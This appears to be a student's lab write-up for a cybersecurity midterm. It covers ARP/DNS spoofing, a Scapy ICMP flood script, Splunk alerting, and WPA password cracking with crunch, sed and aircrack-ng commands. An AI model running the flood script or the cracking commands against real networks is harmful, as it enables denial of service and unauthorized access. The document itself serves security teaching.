# Midterm Revision

## Implementation of Arpspoof tool and Splunk SIEM Tool with cracking passwor

## Use the arpspoof tool to perform the following attacks [10 Marks] 
  ### a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack.



![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7aa715a7-f962-44f0-97cc-f385e310c1a2)

Victim: 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/6bc5f582-d90e-4437-89a5-d24a3c943829)

Arp Spoof Started

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/20502860-fc28-4804-b4df-5574b945e6aa)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/62716f88-d63d-40fe-afed-46705ce83537)

Dns Spoof Host

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/8986bd4a-d11a-48e5-bcae-b1766c17cf90)



  ### b. Use ICMP Packets to perform only DDOS attacks over the victim. 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/86edcb21-1696-4996-bd73-bc886422d8e8)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/bac150a5-3d56-4bf6-87b2-89101e60a150)

```
from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
```

![WhatsApp Image 2024-03-17 at 10 45 34_8dd998e1](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7fc8c409-f7fa-4623-8fb7-a0e62325bed1)


DDOS Attack is performed



## 2. Use Splunk to answer the following questions:
  ### a. Capture these above attacks using Splunk in an active or passive method. (10 Marks)

Passive Method for analysing the event

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/96ff1ae2-98f7-4f65-97ad-956fbe7bd15e)

  
  ### b. Identify and Analyse the Indicator of Compromise for the attack. (5 Marks)

- An Indicator of Compromise (IoC) is any piece of evidence or anomaly that suggests a network intrusion or security breach has occurred. IoCs can take various forms, including:
    - File Hashes: Hash values of known malicious files or executables found on systems.
    - IP Addresses: IP addresses associated with malicious activity, such as command and control servers or sources of malicious traffic.
    - Domain Names: Domain names linked to malicious activities, phishing campaigns, or hosting malicious content.
    - URLs: URLs used in phishing emails or websites hosting exploit kits or malware payloads.
    - File Paths: Unusual file paths or directories commonly used by malware for persistence or data exfiltration.
    - Network Traffic Patterns: Anomalous network traffic, such as unusual spikes in DNS queries, connections to known malicious IP addresses, or unexpected outbound traffic.
    - System Logs: Suspicious entries in system logs, including failed login attempts, privilege escalations, or unusual system activities.


For DNS Spoofing Attack IOC can be :
  - DNS Log Analysis and DNS Traffic Analysis
  - File Hash, Suspicious IP Address and anamoulous Login Activity


  
  ### c. Explore and create an Alert for similar attacks in the Future. (5 Marks)

- we should create an alert to monitor such type of events when encountered in future.

  
![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/d6a72533-bd5a-43ed-a1a0-6a95463274b6)

After Creating an alert 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/3b78d826-30f9-4b13-bcf3-16c310e404e4)

  - first selecting due to which incident the attack is generated
  - Select Monitoring tool
  - Create alerts.
  - Test the alerts
  - Fine- Tuning the alert
  - Document the alert rules which are craftes
  - Continuous Improvement.


## 3. Use the given PCAP file to analyse and answer the following questions:

  ### a. Decrypt the traffic by cracking the password using appropriate tools and techniques. It is a must to mention briefly your method of cracking the password in the documentation. [HINT: password length – 16, Capital letter – 2, numerals – 6, It is a repetition of the same word as [CyberCyber].[6 Marks]

First we have to create a word list with `Crunch` command 

`crunch 8 8 ,@@@@123 -o temp.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/fc706b18-c6de-4d33-8ce2-d03f2880b1cd)

`sed "s/^\(.\{8\}\)$/\1\1/" temp.txt > final.txt`

then we will make for 16 characters with concatination command 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1483d82a-173b-49ec-8f8a-64de86e90157)

If we directly crack the password using the cap file it will show as unsupported file so we need to change the formate of the file with tcpdump tool
`tcpdump -r Downloads/midterm.cap -w output.pcap`

we have to crack password by using wordlist in `aircrack-ng tool`
`aircrack-ng output.pcap -w final.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c8293b2b-a9aa-4c5c-99cf-81480c740b10)

Password Cracked: `Cisco123Cisco123`

  ### b. Analyse the decrypted traffic using tools to identify the malicious/suspicious activity recorded in the WLAN. [4 Marks]

Now we have to open Wireshark and add our password in keys to decypt the pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c34c9bfd-61b1-4177-9ff1-c22dbeeb61e7)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/dd34ea48-917f-4a50-a1fa-146c9933d8a7)

On Analyzing the pcap file, we can get to know that Voip call is made throgh Skinny Protocol and all details regarding the call are available in this pcap 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/4c571bf1-337d-49b6-8d31-4770dfc3dce3)

First Connection is established with Skinny Protocol then Communication is being performed RTP and at last connection is disabled

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/0a700cf5-0b81-4e30-985e-a38360ca6b5f)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/2d425d52-d0ad-4e94-b561-9760d858cf32)









  
